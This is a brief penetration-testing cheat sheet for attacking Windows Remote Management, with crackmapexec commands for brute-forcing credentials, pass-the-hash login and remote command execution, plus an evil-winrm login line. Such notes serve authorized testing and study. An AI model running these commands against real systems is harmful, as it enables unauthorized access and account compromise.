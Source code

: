 *Listen on one of two ports:*

- **5985/tcp (HTTP)**
- 5986/tcp (HTTPS)

### Brute force

```
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

### Just check a pair of credentials
### Username + Password + CMD command execution

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
```

### Username + Hash + PS command execution
### Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
```

```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

